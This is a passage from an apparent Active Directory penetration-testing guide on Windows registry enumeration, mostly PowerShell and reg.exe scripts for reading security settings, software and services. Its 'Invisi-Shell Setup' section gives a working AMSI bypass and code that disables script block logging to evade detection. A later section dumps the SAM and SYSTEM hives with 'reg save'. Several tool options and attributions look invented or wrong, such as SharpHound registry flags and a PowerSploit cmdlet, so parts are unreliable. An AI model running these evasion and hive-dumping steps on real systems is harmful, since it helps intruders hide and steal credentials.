



[Prev: 17_File_Share_Enumeration.md](./17_File_Share_Enumeration.md) | [Up: Index](./00_Enumeration_Index.md) | [Hub](./00_Methodology_Hub.md) | [Next: 19_PowerShell_Remoting_Enumeration.md](./19_PowerShell_Remoting_Enumeration.md)

# Registry Enumeration

## Overview
**Registry Enumeration** maps Windows configuration relevant to AD operations: autologon keys, remoting toggles, service configs, LAPS/compliance markers. Outputs feed remoting, lateral movement, and data hunting pivots.

## Stealth & Loading
Use [01_Tool_Setup_Loading.md](./01_Tool_Setup_Loading.md) for Invisi‑Shell and module loading. Continue with read‑only, scoped queries here.

## What Registry Enumeration Achieves
- **System Configuration Discovery**: Uncover system settings and policies
- **Software Inventory**: Identify installed applications and services
- **Security Assessment**: Evaluate security configurations and weaknesses
- **User Profile Analysis**: Examine user-specific settings and preferences
- **Attack Path Mapping**: Find configuration-based attack vectors

## Invisi-Shell Setup

### 1. Bypass Execution Policy and AMSI
```powershell
# Bypass execution policy
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process -Force

# Bypass AMSI
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

# Disable script block logging
$settings = [Ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings','NonPublic,Static').GetValue($null)
$settings['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging'] = @{}
$settings['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging'].Add('EnableScriptBlockLogging', 0)
```

### 2. Load PowerView
```powershell
# Import PowerView
. .\PowerView.ps1

# Verify PowerView loaded
Get-Command -Module PowerView | Measure-Object | Select-Object Count
```

## Registry Enumeration Tools

### 1. Native Windows Tools

#### **reg.exe** - Command Line Registry Editor
```cmd
# Basic registry query
reg query "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion" /v ProductName

# Query with recursion
reg query "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall" /s

# Export registry key to file
reg export "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion" C:\temp\windows_version.reg

# Query specific value types
reg query "HKLM\SYSTEM\CurrentControlSet\Services\Netlogon\Parameters" /v MinimumPasswordLength
```

**Tool Explanation:**
- **reg.exe**: Built-in Windows registry command-line tool
- **/v**: Specifies value name to query
- **/s**: Recursively queries all subkeys
- **/f**: Searches for specific text patterns
- **Advantages**: No additional tools needed, built into Windows
- **Disadvantages**: Limited output formatting, harder to parse

#### **regedit.exe** - Registry Editor GUI
```cmd
# Launch registry editor
regedit.exe

# Open specific registry key
regedit.exe /e C:\temp\export.reg "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion"
```

**Tool Explanation:**
- **regedit.exe**: Windows Registry Editor with graphical interface
- **/e**: Export registry key to file
- **Advantages**: Visual interface, easy navigation, export capabilities
- **Disadvantages**: GUI only, not scriptable, requires user interaction

### 2. PowerShell Registry Provider

#### **Get-ItemProperty** - Registry Value Retrieval
```powershell
# Get specific registry value
Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion" -Name "ProductName"

# Get all values from a key
Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\Netlogon\Parameters"

# Get values with error handling
Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" -ErrorAction SilentlyContinue
```

**Tool Explanation:**
- **Get-ItemProperty**: PowerShell cmdlet for registry value retrieval
- **-Path**: Registry path to query
- **-Name**: Specific value name to retrieve
- **-ErrorAction SilentlyContinue**: Suppress error messages
- **Advantages**: Native PowerShell, easy to script, good error handling
- **Disadvantages**: PowerShell execution policy restrictions

#### **Get-ChildItem** - Registry Key Enumeration
```powershell
# List subkeys
Get-ChildItem -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall"

# Recursive enumeration
Get-ChildItem -Path "HKLM:\SOFTWARE" -Recurse -Depth 2

# Filter by name pattern
Get-ChildItem -Path "HKLM:\SOFTWARE" -Name "*Microsoft*"
```

**Tool Explanation:**
- **Get-ChildItem**: PowerShell cmdlet for registry key enumeration
- **-Recurse**: Recursively enumerate subkeys
- **-Depth**: Limit recursion depth
- **-Name**: Filter by name pattern
- **Advantages**: Flexible filtering, depth control, easy to script
- **Disadvantages**: Can be slow on large registry trees

### 3. Third-Party Registry Tools

#### **RegRipper** - Automated Registry Analysis
```cmd
# Basic RegRipper usage
rip.exe -r C:\temp\SYSTEM -f system

# Multiple plugin execution
rip.exe -r C:\temp\SYSTEM -f system -p userassist,shimcache

# Output to file
rip.exe -r C:\temp\SYSTEM -f system -p system > system_analysis.txt
```

**Tool Explanation:**
- **RegRipper**: Open-source registry analysis tool
- **-r**: Registry hive file path
- **-f**: Hive type (system, software, sam, ntuser.dat)
- **-p**: Specific plugin to run
- **Advantages**: Automated analysis, extensive plugin library, forensic focus
- **Disadvantages**: Requires registry hive files, not live system analysis

#### **Registry Explorer** - Advanced Registry Viewer
```cmd
# Launch Registry Explorer
regedit.exe

# Alternative: Use Registry Explorer for better analysis
# Download from: https://github.com/zodiacon/RegistryExplorer
```

**Tool Explanation:**
- **Registry Explorer**: Enhanced registry viewing tool
- **Features**: Better search, filtering, and analysis capabilities
- **Advantages**: Advanced search, better UI than regedit, export options
- **Disadvantages**: Third-party tool, requires download

### 4. Offensive Registry Tools

#### **PowerSploit - Get-RegistryKeyAudit**
```powershell
# Import PowerSploit
Import-Module PowerSploit

# Get registry key audit information
Get-RegistryKeyAudit -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion"

# Check for interesting permissions
Get-RegistryKeyAudit -Path "HKLM:\SYSTEM\CurrentControlSet\Services" | Where-Object { $_.IdentityReference -like "*Everyone*" }
```

**Tool Explanation:**
- **Get-RegistryKeyAudit**: PowerSploit module for registry permission analysis
- **-Path**: Registry path to analyze
- **Output**: Shows who has access to registry keys
- **Advantages**: Permission enumeration, security analysis, offensive focus
- **Disadvantages**: Requires PowerSploit, may trigger AV

#### **SharpHound - Registry Data Collection**
```cmd
# SharpHound with registry collection
SharpHound.exe --CollectionMethods Registry

# Specific registry collection
SharpHound.exe --CollectionMethods Registry --RegistryKeys "HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion"
```

**Tool Explanation:**
- **SharpHound**: BloodHound data collector with registry capabilities
- **--CollectionMethods Registry**: Enable registry collection
- **--RegistryKeys**: Specify specific keys to collect
- **Advantages**: Integrates with BloodHound, automated collection, comprehensive
- **Disadvantages**: Large output, requires BloodHound setup

### 5. Registry Enumeration Scripts

#### **RegistryEnum.ps1** - Custom Enumeration Script
```powershell
# Custom registry enumeration script
. .\RegistryEnum.ps1

# Enumerate security configurations
Get-RegistrySecurityConfig -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa"

# Find interesting registry keys
Find-InterestingRegistryKeys -Pattern "*password*", "*secret*", "*key*"
```

**Tool Explanation:**
- **Custom Scripts**: Tailored registry enumeration for specific needs
- **Advantages**: Customizable, targeted enumeration, specific use cases
- **Disadvantages**: Requires development, maintenance, testing

### 6. Tool Selection Guide

#### **For Basic Enumeration:**
- **reg.exe**: Quick queries, command line usage
- **Get-ItemProperty**: PowerShell integration, scripting

#### **For Security Analysis:**
- **RegRipper**: Automated analysis, forensic focus
- **PowerSploit**: Permission analysis, offensive perspective

#### **For Comprehensive Enumeration:**
- **SharpHound**: BloodHound integration, automated collection
- **Custom Scripts**: Targeted enumeration, specific requirements

#### **For Live System Analysis:**
- **PowerShell Registry Provider**: Native tools, no additional downloads
- **reg.exe**: Built-in Windows tool, no execution policy issues

### 7. Practical Tool Usage Examples

#### **Quick Security Assessment with reg.exe**
```cmd
# Check password policy settings
reg query "HKLM\SYSTEM\CurrentControlSet\Services\Netlogon\Parameters" /v MinimumPasswordLength
reg query "HKLM\SYSTEM\CurrentControlSet\Services\Netlogon\Parameters" /v PasswordComplexity
reg query "HKLM\SYSTEM\CurrentControlSet\Services\Netlogon\Parameters" /v LockoutThreshold

# Check security options
reg query "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v RestrictAnonymous
reg query "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v NoLMHash

# Check UAC settings
reg query "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v EnableLUA
reg query "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v ConsentPromptBehaviorAdmin
```

#### **PowerShell Registry Enumeration Script**
```powershell
# Quick registry security check
function Quick-RegistrySecurityCheck {
    Write-Host "Quick Registry Security Check" -ForegroundColor Yellow
    
    # Password policies
    $passwordPath = "HKLM:\SYSTEM\CurrentControlSet\Services\Netlogon\Parameters"
    $passwordPolicy = Get-ItemProperty -Path $passwordPath -ErrorAction SilentlyContinue
    
    if ($passwordPolicy) {
        Write-Host "Password Policies:" -ForegroundColor Cyan
        Write-Host "  Min Length: $($passwordPolicy.MinimumPasswordLength)" -ForegroundColor White
        Write-Host "  Complexity: $($passwordPolicy.PasswordComplexity)" -ForegroundColor White
        Write-Host "  History: $($passwordPolicy.PasswordHistory)" -ForegroundColor White
    }
    
    # Security options
    $securityPath = "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa"
    $securityOptions = Get-ItemProperty -Path $securityPath -ErrorAction SilentlyContinue
    
    if ($securityOptions) {
        Write-Host "Security Options:" -ForegroundColor Cyan
        Write-Host "  Restrict Anonymous: $($securityOptions.RestrictAnonymous)" -ForegroundColor White
        Write-Host "  No LM Hash: $($securityOptions.NoLMHash)" -ForegroundColor White
    }
}

# Run quick check
Quick-RegistrySecurityCheck
```

#### **RegRipper for Offline Analysis**
```cmd
# Extract registry hives from live system
reg save HKLM\SYSTEM C:\temp\SYSTEM
reg save HKLM\SOFTWARE C:\temp\SOFTWARE
reg save HKLM\SAM C:\temp\SAM

# Analyze with RegRipper
rip.exe -r C:\temp\SYSTEM -f system -p system
rip.exe -r C:\temp\SOFTWARE -f software -p software
rip.exe -r C:\temp\SAM -f sam -p sam

# Specific plugin analysis
rip.exe -r C:\temp\SYSTEM -f system -p userassist
rip.exe -r C:\temp\SYSTEM -f system -p shimcache
rip.exe -r C:\temp\SOFTWARE -f software -p winlogon
```

#### **PowerSploit for Permission Analysis**
```powershell
# Import PowerSploit
Import-Module PowerSploit

# Check registry permissions for interesting keys
$interestingPaths = @(
    "HKLM:\SYSTEM\CurrentControlSet\Services\Netlogon\Parameters",
    "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System",
    "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa"
)

foreach ($path in $interestingPaths) {
    Write-Host "Checking permissions for: $path" -ForegroundColor Cyan
    $audit = Get-RegistryKeyAudit -Path $path -ErrorAction SilentlyContinue
    
    if ($audit) {
        $audit | Where-Object { $_.IdentityReference -like "*Everyone*" -or $_.IdentityReference -like "*Authenticated Users*" } | ForEach-Object {
            Write-Host "  ⚠ $($_.IdentityReference) - $($_.FileSystemRights)" -ForegroundColor Red
        }
    }
}
```

## Registry Enumeration Workflow



**Workflow Explanation:**

This comprehensive workflow demonstrates the systematic approach to **registry enumeration** using PowerShell and PowerView functions:

1. **Stealth Setup**: Begin with Invisi-Shell to bypass logging and detection mechanisms
2. **Tool Loading**: Load PowerView and registry-specific enumeration tools
3. **Registry Discovery**: Explore registry hives and key structures
4. **Key Analysis**: Analyze registry keys, properties, and permissions
5. **Value Enumeration**: Examine registry values and their content
6. **Security Analysis**: Review security configurations and policies
7. **Credential Hunting**: Search for stored credentials and authentication data
8. **Persistence Discovery**: Identify persistence mechanisms and startup programs
9. **Advanced Analysis**: Perform registry forensics and timeline analysis

**Note:** For basic domain information and trust relationships, see [Domain Enumeration](./04_Domain_Enumeration.md).

## Registry Fundamentals

### 1. Registry Hives and Structure
The Windows Registry is organized into five main hives:

- **HKEY_LOCAL_MACHINE (HKLM)**: System-wide settings and configurations
- **HKEY_CURRENT_USER (HKCU)**: Current user's settings and preferences
- **HKEY_USERS (HKU)**: All user profiles on the system
- **HKEY_CLASSES_ROOT (HKCR)**: File associations and COM objects
- **HKEY_CURRENT_CONFIG (HKCC)**: Current hardware configuration

### 2. Registry Navigation Commands
```powershell
# Basic registry navigation
function Navigate-Registry {
    try {
        Write-Host "Registry Navigation Guide" -ForegroundColor Yellow
        Write-Host "=" * 40
        
        # List registry hives
        Write-Host "Available Registry Hives:" -ForegroundColor Cyan
        Write-Host "  HKLM:\ - Local Machine" -ForegroundColor White
        Write-Host "  HKCU:\ - Current User" -ForegroundColor White
        Write-Host "  HKU:\ - All Users" -ForegroundColor White
        Write-Host "  HKCR:\ - Classes Root" -ForegroundColor White
        Write-Host "  HKCC:\ - Current Config" -ForegroundColor White
        
        Write-Host ""
        
        # Show current location
        $currentLocation = Get-Location
        Write-Host "Current Location: $currentLocation" -ForegroundColor Green
        
        # List available drives
        Write-Host ""
        Write-Host "Available Registry Drives:" -ForegroundColor Cyan
        Get-PSDrive -PSProvider Registry | ForEach-Object {
            Write-Host "  $($_.Name): - $($_.Description)" -ForegroundColor White
        }
        
        return $true
    }
    catch {
        Write-Warning "Registry navigation failed: $($_.Exception.Message)"
        return $false
    }
}

# Navigate registry
Navigate-Registry
```

## Basic Registry Enumeration

### 1. Registry Key Discovery
```powershell
# Enumerate registry keys systematically
function Get-RegistryKeys {
    param(
        [string]$RegistryPath = "HKLM:\SOFTWARE",
        [int]$MaxKeys = 50,
        [switch]$Recursive
    )
    
    try {
        Write-Host "Enumerating registry keys from: $RegistryPath" -ForegroundColor Yellow
        
        $registryKeys = @()
        $keyCount = 0
        
        # Get registry keys
        if ($Recursive) {
            $keys = Get-ChildItem -Path $RegistryPath -Recurse -ErrorAction SilentlyContinue
        } else {
            $keys = Get-ChildItem -Path $RegistryPath -ErrorAction SilentlyContinue
        }
        
        Write-Host "Found $($keys.Count) registry keys" -ForegroundColor Cyan
        
        foreach ($key in $keys | Select-Object -First $MaxKeys) {
            $keyCount++
            Write-Progress -Activity "Enumerating Registry Keys" -Status "Processing $($key.Name)" -PercentComplete (($keyCount / [math]::Min($keys.Count, $MaxKeys)) * 100)
            
            $keyInfo = @{
                Name = $key.Name
                Path = $key.PSPath
                SubKeyCount = $key.SubKeyCount
                ValueCount = $key.ValueCount
                LastWriteTime = $key.LastWriteTime
                FullPath = $key.PSPath
            }
            
            $registryKeys += $keyInfo
            
            # Display key information
            $displayName = if ($key.Name.Length -gt 50) { $key.Name.Substring(0, 47) + "..." } else { $key.Name }
            Write-Host "  $displayName" -ForegroundColor White
            Write-Host "    Subkeys: $($key.SubKeyCount), Values: $($key.ValueCount)" -ForegroundColor Gray
            Write-Host "    Modified: $($key.LastWriteTime.ToString('yyyy-MM-dd HH:mm'))" -ForegroundColor Gray
        }
        
        Write-Progress -Activity "Enumerating Registry Keys" -Completed
        
        Write-Host ""
        Write-Host "Total registry keys processed: $($registryKeys.Count)" -ForegroundColor Green
        
        return $registryKeys
    }
    catch {
        Write-Warning "Registry key enumeration failed: $($_.Exception.Message)"
        return @()
    }
}

# Enumerate registry keys
$registryKeys = Get-RegistryKeys -RegistryPath "HKLM:\SOFTWARE" -MaxKeys 30
```

### 2. Registry Value Enumeration
```powershell
# Enumerate registry values with detailed information
function Get-RegistryValues {
    param(
        [string]$RegistryPath = "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion",
        [int]$MaxValues = 100
    )
    
    try {
        Write-Host "Enumerating registry values from: $RegistryPath" -ForegroundColor Yellow
        
        $registryValues = @()
        
        # Get registry values
        $values = Get-ItemProperty -Path $RegistryPath -ErrorAction SilentlyContinue
        
        if ($values) {
            $properties = $values | Get-Member -MemberType NoteProperty
            
            Write-Host "Found $($properties.Count) registry values" -ForegroundColor Cyan
            
            foreach ($property in $properties | Select-Object -First $MaxValues) {
                $propertyValue = $values.$($property.Name)
                
                # Determine value type
                $valueType = if ($propertyValue -is [int]) { "DWORD" } elseif ($propertyValue -is [string]) { "String" } else { "Unknown" }
                
                $valueInfo = @{
                    Name = $property.Name
                    Value = $propertyValue
                    Type = $valueType
                    Path = $RegistryPath
                    FullPath = "$RegistryPath\$($property.Name)"
                }
                
                $registryValues += $valueInfo
                
                # Display value information
                $displayValue = if ($propertyValue) { 
                    if ($propertyValue.ToString().Length -gt 50) { 
                        $propertyValue.ToString().Substring(0, 47) + "..." 
                    } else { 
                        $propertyValue.ToString() 
                    }
                } else { 
                    "(empty)" 
                }
                
                Write-Host "  $($property.Name): $displayValue" -ForegroundColor White
                Write-Host "    Type: $valueType" -ForegroundColor Gray
            }
        } else {
            Write-Host "No registry values found at this path" -ForegroundColor Red
        }
        
        Write-Host ""
        Write-Host "Total registry values processed: $($registryValues.Count)" -ForegroundColor Green
        
        return $registryValues
    }
    catch {
        Write-Warning "Registry value enumeration failed: $($_.Exception.Message)"
        return @()
    }
}

# Enumerate registry values
$registryValues = Get-RegistryValues -RegistryPath "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion" -MaxValues 50
```

## Security Configuration Enumeration

### 1. Password Policy Enumeration
```powershell
# Enumerate password policies from registry
function Get-PasswordPolicies {
    try {
        Write-Host "Enumerating password policies..." -ForegroundColor Yellow
        
        $passwordPolicies = @{}
        
        # Password policy paths
        $policyPaths = @(
            "HKLM:\SYSTEM\CurrentControlSet\Services\Netlogon\Parameters",
            "HKLM:\SYSTEM\CurrentControlSet\Services\Netlogon\Parameters\Domain"
        )
        
        foreach ($path in $policyPaths) {
            Write-Host "Checking path: $path" -ForegroundColor Cyan
            
            try {
                $policy = Get-ItemProperty -Path $path -ErrorAction SilentlyContinue
                
                if ($policy) {
                    # Extract password policy settings
                    $policySettings = @{
                        MinimumPasswordLength = $policy.MinimumPasswordLength
                        PasswordComplexity = $policy.PasswordComplexity
                        PasswordHistory = $policy.PasswordHistory
                        MaximumPasswordAge = $policy.MaximumPasswordAge
                        MinimumPasswordAge = $policy.MinimumPasswordAge
                    }
                    
                    # Display policy information
                    Write-Host "  Minimum Password Length: $($policySettings.MinimumPasswordLength)" -ForegroundColor White
                    Write-Host "  Password Complexity: $($policySettings.PasswordComplexity)" -ForegroundColor White
                    Write-Host "  Password History: $($policySettings.PasswordHistory)" -ForegroundColor White
                    Write-Host "  Maximum Password Age: $($policySettings.MaximumPasswordAge)" -ForegroundColor White
                    Write-Host "  Minimum Password Age: $($policySettings.MinimumPasswordAge)" -ForegroundColor White
                    
                    $passwordPolicies[$path] = $policySettings
                }
            }
            catch {
                Write-Host "  Path not accessible: $path" -ForegroundColor Red
            }
        }
        
        # Check for weak password policies
        Write-Host ""
        Write-Host "Password Policy Analysis:" -ForegroundColor Cyan
        
        foreach ($path in $passwordPolicies.Keys) {
            $policy = $passwordPolicies[$path]
            
            if ($policy.MinimumPasswordLength -lt 8) {
                Write-Host "  ⚠ Weak password length: $($policy.MinimumPasswordLength) characters" -ForegroundColor Red
            }
            
            if ($policy.PasswordComplexity -eq 0) {
                Write-Host "  ⚠ Password complexity disabled" -ForegroundColor Red
            }
            
            if ($policy.PasswordHistory -eq 0) {
                Write-Host "  ⚠ No password history requirement" -ForegroundColor Red
            }
        }
        
        return $passwordPolicies
    }
    catch {
        Write-Warning "Password policy enumeration failed: $($_.Exception.Message)"
        return @{}
    }
}

# Enumerate password policies
$passwordPolicies = Get-PasswordPolicies
```

### 2. Account Lockout Policy Enumeration
```powershell
# Enumerate account lockout policies
function Get-AccountLockoutPolicies {
    try {
        Write-Host "Enumerating account lockout policies..." -ForegroundColor Yellow
        
        $lockoutPolicies = @{}
        
        # Account lockout policy paths
        $policyPaths = @(
            "HKLM:\SYSTEM\CurrentControlSet\Services\Netlogon\Parameters",
            "HKLM:\SYSTEM\CurrentControlSet\Services\Netlogon\Parameters\Domain"
        )
        
        foreach ($path in $policyPaths) {
            Write-Host "Checking path: $path" -ForegroundColor Cyan
            
            try {
                $policy = Get-ItemProperty -Path $path -ErrorAction SilentlyContinue
                
                if ($policy) {
                    # Extract lockout policy settings
                    $lockoutSettings = @{
                        LockoutThreshold = $policy.LockoutThreshold
                        LockoutDuration = $policy.LockoutDuration
                        LockoutWindow = $policy.LockoutWindow
                        ResetLockoutCount = $policy.ResetLockoutCount
                    }
                    
                    # Display lockout information
                    Write-Host "  Lockout Threshold: $($lockoutSettings.LockoutThreshold)" -ForegroundColor White
                    Write-Host "  Lockout Duration: $($lockoutSettings.LockoutDuration)" -ForegroundColor White
                    Write-Host "  Lockout Window: $($lockoutSettings.LockoutWindow)" -ForegroundColor White
                    Write-Host "  Reset Lockout Count: $($lockoutSettings.ResetLockoutCount)" -ForegroundColor White
                    
                    $lockoutPolicies[$path] = $lockoutSettings
                }
            }
            catch {
                Write-Host "  Path not accessible: $path" -ForegroundColor Red
            }
        }
        
        # Check for weak lockout policies
        Write-Host ""
        Write-Host "Account Lockout Policy Analysis:" -ForegroundColor Cyan
        
        foreach ($path in $lockoutPolicies.Keys) {
            $policy = $lockoutPolicies[$path]
            
            if ($policy.LockoutThreshold -eq 0) {
                Write-Host "  ⚠ Account lockout disabled" -ForegroundColor Red
            } elseif ($policy.LockoutThreshold -gt 10) {
                Write-Host "  ⚠ High lockout threshold: $($policy.LockoutThreshold)" -ForegroundColor Yellow
            }
            
            if ($policy.LockoutDuration -eq 0) {
                Write-Host "  ⚠ No lockout duration (manual unlock required)" -ForegroundColor Yellow
            }
        }
        
        return $lockoutPolicies
    }
    catch {
        Write-Warning "Account lockout policy enumeration failed: $($_.Exception.Message)"
        return @{}
    }
}

# Enumerate account lockout policies
$lockoutPolicies = Get-AccountLockoutPolicies
```

### 3. Security Options Enumeration
```powershell
# Enumerate security options and settings
function Get-SecurityOptions {
    try {
        Write-Host "Enumerating security options..." -ForegroundColor Yellow
        
        $securityOptions = @{}
        
        # Security option paths
        $securityPaths = @(
            "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa",
            "HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest",
            "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Memory Management"
        )
        
        foreach ($path in $securityPaths) {
            Write-Host "Checking path: $path" -ForegroundColor Cyan
            
            try {
                $options = Get-ItemProperty -Path $path -ErrorAction SilentlyContinue
                
                if ($options) {
                    # Extract security settings
                    $securitySettings = @{
                        RestrictAnonymous = $options.RestrictAnonymous
                        RestrictAnonymousSAM = $options.RestrictAnonymousSAM
                        NoLMHash = $options.NoLMHash
                        UseLogonCredential = $options.UseLogonCredential
                        ClearTextPassword = $options.ClearTextPassword
                    }
                    
                    # Display security information
                    Write-Host "  Restrict Anonymous: $($securitySettings.RestrictAnonymous)" -ForegroundColor White
                    Write-Host "  Restrict Anonymous SAM: $($securitySettings.RestrictAnonymousSAM)" -ForegroundColor White
                    Write-Host "  No LM Hash: $($securitySettings.NoLMHash)" -ForegroundColor White
                    Write-Host "  Use Logon Credential: $($securitySettings.UseLogonCredential)" -ForegroundColor White
                    Write-Host "  Clear Text Password: $($securitySettings.ClearTextPassword)" -ForegroundColor White
                    
                    $securityOptions[$path] = $securitySettings
                }
            }
            catch {
                Write-Host "  Path not accessible: $path" -ForegroundColor Red
            }
        }
        
        # Check for weak security settings
        Write-Host ""
        Write-Host "Security Options Analysis:" -ForegroundColor Cyan
        
        foreach ($path in $securityOptions.Keys) {
            $options = $securityOptions[$path]
            
            if ($options.RestrictAnonymous -eq 0) {
                Write-Host "  ⚠ Anonymous access allowed" -ForegroundColor Red
            }
            
            if ($options.NoLMHash -eq 0) {
                Write-Host "  ⚠ LM hashes stored for backward compatibility" -ForegroundColor Yellow
            }
            
            if ($options.ClearTextPassword -eq 1) {
                Write-Host "  ⚠ Clear text passwords enabled" -ForegroundColor Red
            }
        }
        
        return $securityOptions
    }
    catch {
        Write-Warning "Security options enumeration failed: $($_.Exception.Message)"
        return @{}
    }
}

# Enumerate security options
$securityOptions = Get-SecurityOptions
```

## Software and Service Discovery

### 1. Installed Software Enumeration
```powershell
# Enumerate installed software from registry
function Get-InstalledSoftware {
    try {
        Write-Host "Enumerating installed software..." -ForegroundColor Yellow
        
        $installedSoftware = @()
        
        # Software registry paths (32-bit and 64-bit)
        $softwarePaths = @(
            "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall",
            "HKLM:\SOFTWARE\WOW6432Node\Microsoft\Windows\CurrentVersion\Uninstall"
        )
        
        foreach ($path in $softwarePaths) {
            Write-Host "Checking path: $path" -ForegroundColor Cyan
            
            try {
                $softwareKeys = Get-ChildItem -Path $path -ErrorAction SilentlyContinue
                
                Write-Host "  Found $($softwareKeys.Count) software entries" -ForegroundColor White
                
                foreach ($key in $softwareKeys | Select-Object -First 20) {
                    try {
                        $softwareInfo = Get-ItemProperty -Path $key.PSPath -ErrorAction SilentlyContinue
                        
                        if ($softwareInfo.DisplayName) {
                            $software = @{
                                Name = $softwareInfo.DisplayName
                                Version = $softwareInfo.DisplayVersion
                                Publisher = $softwareInfo.Publisher
                                InstallDate = $softwareInfo.InstallDate
                                UninstallString = $softwareInfo.UninstallString
                                RegistryPath = $key.PSPath
                                EstimatedSize = $softwareInfo.EstimatedSize
                            }
                            
                            $installedSoftware += $software
                            
                            # Display software information
                            $displayName = if ($softwareInfo.DisplayName.Length -gt 40) { 
                                $softwareInfo.DisplayName.Substring(0, 37) + "..." 
                            } else { 
                                $softwareInfo.DisplayName 
                            }
                            
                            Write-Host "    $displayName" -ForegroundColor White
                            Write-Host "      Version: $($softwareInfo.DisplayVersion)" -ForegroundColor Gray
                            Write-Host "      Publisher: $($softwareInfo.Publisher)" -ForegroundColor Gray
                        }
                        
                    }
                    catch {
                        # Skip this software entry
                    }
                }
                
            }
            catch {
                Write-Host "  Path not accessible: $path" -ForegroundColor Red
            }
        }
        
        Write-Host ""
        Write-Host "Total software found: $($installedSoftware.Count)" -ForegroundColor Green
        
        # Look for interesting software
        $interestingSoftware = $installedSoftware | Where-Object { 
            $_.Name -like "*admin*" -or 
            $_.Name -like "*security*" -or 
            $_.Name -like "*monitor*" -or
            $_.Name -like "*backup*" -or
            $_.Name -like "*remote*"
        }
        
        if ($interestingSoftware.Count -gt 0) {
            Write-Host ""
            Write-Host "Interesting Software Found:" -ForegroundColor Yellow
            foreach ($software in $interestingSoftware) {
                Write-Host "  ⚠ $($software.Name) - $($software.Version)" -ForegroundColor Yellow
            }
        }
        
        return $installedSoftware
    }
    catch {
        Write-Warning "Software enumeration failed: $($_.Exception.Message)"
        return @()
    }
}

# Enumerate installed software
$installedSoftware = Get-InstalledSoftware
```

### 2. Windows Services Enumeration
```powershell
# Enumerate Windows services from registry
function Get-WindowsServices {
    try {
        Write-Host "Enumerating Windows services..." -ForegroundColor Yellow
        
        $windowsServices = @()
        
        # Services registry path
        $servicesPath = "HKLM:\SYSTEM\CurrentControlSet\Services"
        
        try {
            $serviceKeys = Get-ChildItem -Path $servicesPath -ErrorAction SilentlyContinue
            
            Write-Host "Found $($serviceKeys.Count) services" -ForegroundColor Cyan
            
            foreach ($key in $serviceKeys | Select-Object -First 30) {
                try {
                    $serviceInfo = Get-ItemProperty -Path $key.PSPath -ErrorAction SilentlyContinue
                    
